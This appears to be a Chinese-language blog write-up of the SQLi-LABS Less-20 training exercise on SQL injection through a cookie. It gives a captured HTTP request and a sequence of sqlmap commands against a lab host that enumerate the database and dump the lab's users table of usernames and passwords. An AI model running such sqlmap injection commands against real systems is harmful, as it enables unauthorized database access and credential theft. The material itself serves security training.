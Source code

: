 ```yaml
---
layout: post
title: "cookie-injections-sqlmap"
date: 2019-05-21
author: jjnoob
categories:
- 2019-05
tags:
- sqli
- sqlmap
- cookie
---
```


* content
{:toc}

题目地址: SQLi-LABS Page-1(Basic Challenges) -> Less-20 


# cookie
用户和密码都输入`admin`

burp抓包, proxy里面查看cookie:
```
GET /Less-20/index.php HTTP/1.1
Host: 43.247.91.228:84
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://43.247.91.228:84/Less-20/index.php
Connection: keep-alive
Cookie: uname=admin
Upgrade-Insecure-Requests: 1
```

登陆的cookie是`uname=admin`


<br />

# sqlmap

## 尝试
```
sqlmap.py -u "http://43.247.91.228:84/Less-20/index.php" --cookie "uname=admin" --level=2
```

> * HTTP Cookie在level为2及以上的时候会测试.
> * HTTP User-Agent/Referer头在level为3及以上的时候会测试.


返回:
```
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.5
```

## 爆库
```
sqlmap -u "http://43.247.91.228:84/Less-20/index.php" --cookie "uname=admin" --level=2 --current-db
```

返回:
```
current database: 'security'
```

## 爆表
```
sqlmap -u "http://43.247.91.228:84/Less-20/index.php" --cookie "uname=admin" -D security --tables --level=2
```

返回:
```
Database: security
[4 tables]
+----------+
| emails   |
| referers |
| uagents  |
| users    |
+----------+
```

## 爆字段
```
sqlmap -u "http://43.247.91.228:84/Less-20/index.php" --cookie "uname=admin" -D security -T users --columns --level=2
```

返回:
```
Database: security
Table: users
[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(3)      |
| password | varchar(20) |
| username | varchar(20) |
+----------+-------------+
```

## 查看字段信息
```
sqlmap -u "http://43.247.91.228:84/Less-20/index.php" --cookie "uname=admin" -D security -T users -C password,username --level=2 --dump
```

返回:
```
Database: security
Table: users
[13 entries]
+------------+----------+
| password   | username |
+------------+----------+
| Dumb       | Dumb     |
| I-kill-you | Angelina |
| p@ssword   | Dummy    |
| crappy     | secure   |
| stupidity  | stupid   |
| genious    | superman |
| mob!le     | batman   |
| admin      | admin    |
| admin1     | admin1   |
| admin2     | admin2   |
| admin3     | admin3   |
| dumbo      | dhakkan  |
| admin4     | admin4   |
+------------+----------+
```
